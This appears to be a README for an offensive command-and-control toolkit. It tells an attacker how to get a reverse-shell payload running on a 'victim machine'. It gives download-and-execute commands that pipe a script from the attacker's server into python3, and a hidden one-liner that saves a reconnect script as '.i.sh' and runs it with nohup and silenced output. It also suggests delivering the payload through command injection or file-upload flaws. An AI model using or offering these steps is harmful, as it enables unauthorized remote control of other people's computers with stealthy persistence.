 # Usage

Note: With all methods - there needs to be a way to run a command on the client machine to kick-off the connection to the CNC server (hacker's machine).
There is more than one way to do this - but would be good to find a straight-forward vulnerability such a a command line injection if possible.

## Method 1: Startup Script [PREFERRED]

### On Hacking machine (CNC Server)
Run startup script
`bash startup.sh`

Then follow on screen instructions.



## Method 2: Manual
(works with cmd line injection)

- [SERVER] Host client_payload.py somehere
- - One option is to start a python web server on the cnc_server
- - `python3 -m http.server 8080`   
- [CLIENT] Download + Execute from client machine
- - `wget -O - <cnc_server_ip>:8080/client_payload.py | python3`
- [OPTIONAL] Once you have a connection to client from cnc server...
- - Download + Execute the client_connect.sh script (keeps reconnects the client if it disconnects)
- - CNC server could host the client_connect.sh script.
- - - This file must first be edited to match the host/port details you already have in use.
- - - `wget -q <cnc_server_ip>:8080/client_connect.sh &> /dev/null ; 
- - - `bash client_connect.sh &> /dev/null & `
- - One-Liner
- - - `{ wget -q -O .i.sh <cnc_server_ip>:8080/client_connect.sh ; } && { nohup bash .i.sh &> /dev/null & }`
- - Make sure you exit from CNC server with 'exit' to disconnect properly.



## Method 3: Direct Client Access

- [SERVER] `python3 server_shell.py` <- edit the file to use the port you want or pass it in as an argument (default 8000). 
- [CLIENT] `python3 client_payload.py`<- edit the file to use the CNC server IP and port you want. 
- - Or pass them in as an argumenta (default port 8000)
- - `python3 client_payload.py <cnc_server_ip> <cnc_server_port>`


# Other ways to get client_payload.py on victim machine
You could also exploit a file upload vulnerability of aa web application and upload the client_payload file onto the victim's machine.
Just make sure you listen on sever and manage a way to run the client_payload.py script on the client machine.


### Port as an optional argument
Both client_payload and server_shell scripts communicate on port 8000 by default.
This can be changed to another port - but you would need to make sure both scripts have the same port..

